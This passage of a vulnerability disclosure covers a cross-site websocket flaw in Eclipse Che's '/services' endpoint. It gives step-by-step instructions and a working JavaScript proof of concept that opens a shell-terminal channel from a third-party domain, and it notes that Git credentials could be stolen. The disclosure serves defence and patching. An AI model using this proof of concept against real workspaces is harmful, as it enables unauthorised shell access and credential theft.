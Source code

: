 3) The attacker has full access to the victims workspace through the `/services` endpoint, which includes full filesystem access of the container running Eclipse CHE. The attacker can then using the workspace API's spawn a new terminal for shell access as well, reading and modifying anything contained within the workspace. The attacker may then escape the container environment by stealing GIT credentials or embedding vulnerabilities in the source code, by including third-party dependencies etc.

This is a high-severity vulnerability as it completely allows the workspace to get compromised, it is however not trivial to exploit as it requires (to the extent of my knowledge at time of writing) a man-in-the-middle attack to deduce the address of the ingress router.

# Proof of concept

There are two proof-of-concepts, one minimal to verify that the vulnerability and another interactive which creates and attaches a new terminal to the vulnerable environment. Both versions of the proof-of-concept requires the routers ingress address to be known in advance.

## Simple - using chrome developer tools

1) open Google chrome and browse to `che.openshift.io`.
2) open Chrome developer tools using the menu -> more tools -> developer tools or press Alt+Shift+I. 
3) browse to `che.openshift.io`, authenticate using any provider. (I choose GitHub)
4) go to the network tab in the developer tools, filter out websocket connections with the "WS" button.
5) right click on the connection to "/services" and copy the url. 
    - (example: wss://routen0vpcnaq-codingchili-che.b542.starter-us-east-2a.openshiftapps.com/services)
6) open a new tab and browse to `about:blank` and open the developer tools again.
7) open the console tab and paste the following JavaScript

```javascript
let ws = new WebSocket("wss://routen0vpcnaq-codingchili-che.b542.starter-us-east-2a.openshiftapps.com/services");

ws.onopen = () => {
 ws.send(JSON.stringify({kind: "open", id: "1", path: "/services/shell-terminal"}));
}

ws.onmessage = (e) => {
  console.log(e.data);
}

```

Replace the url with the one copied from the developer tools and press enter.
After a few seconds the following should be printed to the console 

```javascript
{"kind":"ready","id":"1"}
```

Which indicates that the connection was successful from a third-party domain and that the `/services` endpoint accepted the request and opened the shell-terminal API's for JSON RPC invocations. The JavaScript code works on any domain that doesn't enable any additional cross-site features throgh the use of HTTP headers.

